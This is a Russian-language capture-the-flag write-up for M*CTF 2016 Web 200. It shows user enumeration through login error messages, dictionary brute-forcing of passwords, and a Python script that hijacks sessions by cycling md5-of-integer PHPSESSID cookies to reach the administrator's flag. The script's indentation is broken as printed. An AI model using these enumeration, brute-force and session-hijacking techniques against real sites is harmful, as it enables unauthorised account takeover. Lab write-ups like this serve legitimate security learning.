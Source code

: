 ## M*CTF 2016 Web 200 Write-Up

![Задание](http://i.imgur.com/tn5VrFq.png)

Перейдя по ссылке, попадаем на страницу авторизации

![Авторизация](http://i.imgur.com/DPUune5.png)

После нескольких проб часто встречающихся имен, можно увидеть что мы можем узнать о существовании того или иного пользователя в системе по сообщениям об ошибке. 

![](http://i.imgur.com/TJLGCEg.png)
![](http://i.imgur.com/k23im4n.png)

Таким образом узнаем о существовании пользователей _user_ и _guest_. Недолгий брутфорс по словарю выдает их пароли: _password_ и _87654321_ соответственно.

Авторизовавшись под обоими пользователями можно заметить, что в cookie параметре PHPSESSID лежит что-то, похожее на md5. Беглое гугление хешей показывает, что это и есть md5 от некоторых чисел.

Таким образом, есть возможно подменять сессии пользователей путем подстановки md5(число). Для просмотра запущенных сессий был написан скрипт:
```python
#!/usr/bin/python
import requests
import hashlib

#user:password
#guest:87654321

url = "http://web200.mctf.aciso.ru/index.php"

for i in xrange(100000):
    m = hashlib.md5()
    m.update(str(i))
    cookies={"PHPSESSID": m.hexdigest()}
    r = requests.post(url, cookies=cookies)

if "Session not found!" not in r.text:
print r.text
```
После запуска и недолгого ожидания приходим к успеху
```shell
$ python brute_session.py
<h1>user => Users are very important!</h1>
<h1>guest => Guests are not welcome here...</h1>
<h1>Administrator => FLAG: {Easy_Skills_Mad_Skillz}</h1>
```